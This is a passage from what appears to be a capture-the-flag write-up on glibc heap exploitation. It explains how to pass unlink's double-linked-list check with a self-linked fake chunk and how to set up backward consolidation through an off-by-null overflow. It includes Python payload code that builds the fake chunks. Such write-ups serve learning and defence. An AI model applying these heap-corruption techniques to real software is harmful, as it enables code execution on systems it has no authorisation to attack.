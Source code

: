 ### Do you like it from behind? (or how to consolidate backwards)
Currently we are only creating partial fake chunks, but we need to ensure that the backward consolidation works fine and that it won't try to consolidate forward (or make sure to do it correctly too, but that's going to be more complicated and I think it won't be necessary).

Looking again at `unlink()`:
```c
    FD = P->fd;                                                               \
    BK = P->bk;                                                               \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     \
        malloc_printerr ("corrupted double-linked list");                     \
```
It checks that the chunk being unlinked is the next to its previous and the previous to its next, which indisputably makes sense. The simplest circularly-linked lists are those with only one sole and lone element (how redundant's that sentence?), which has itself as previous and next (lol I've never thought of me as a circularly-linked list).

It's important to take into account that we can't use the true previous chunk because when put back to the tcache its `fwd` pointer will be overwritten with a NULL, so we will need to make a complete fake chunk inside the true previous one. If we make this fake chunk the smallest possible it will be of size 0x20, which means that the actual previous chunk must have (at least) size 0x30.

Notice that we are placing a chunk with size 0x20 inside another chunk, this bigger chunk has 0x10 bytes of headers, so its total size must be 0x30.
```python
log.info("Allocating 0x30 (overflowing)")
data  = b''
data += p64(0xaaaaaaaaaaaaaaaa) # prev_size <----+
data += p64(0x21)               # size           |
data += p64(heap + 0xe10)       # ---------------+
data += p64(heap + 0xe10)
data += p64(0x20) # Next's prev size
data += b'\0'     # Off by null into next's size
create_chunk(0x30, data)
```
We are making a fake previous chunk with size 0x20 linked against itself. The heap offsets were obtained empirically with gdb.<span id="2_"><a href="#2"><sup>2</sup></a>

Now that the backward consolidation has been dealt with we can move *forward* to the forward consolidation. So the partial fake next chunk we built earlier has to be marked as in use, that means that its next chunk has to have the `PREV_INUSE` bit set. Well, the legitimate next chunk does have the `PREV_INUSE` bit set, so we can use it. So, at offset 0xf0 we'd place a chunk, which we are going to make the smallest possible too, 0x20, and we can't place only the header because 0x20 bytes further we need the legit next chunk. This means that *our* chunk has to be of size 0x120 (0xf0 + 0x20 + *our* own headers). Putting it together:
```python
### Insert a chunk in unsorted ###
log.info("Allocating 0x30")
create_chunk(0x30)
log.info("Allocating 0x120")
data  = b''
data += b"A" * (0x100 - 0x10)
data += p64(0xaaaaaaaaaaaaaaaa) # prev_size
data += p64(0x21)               # size
data += b"A" * 0x10
create_chunk(0x120, data)

log.info("Allocating 0x30 (overflowing)")
data  = b''
data += p64(0xaaaaaaaaaaaaaaaa) # prev_size <----+
data += p64(0x21)               # size           |
data += p64(heap + 0xe10)       # ---------------+
data += p64(heap + 0xe10)
data += p64(0x20) # Next's prev size
data += b'\0'     # Off by null into next's size
```
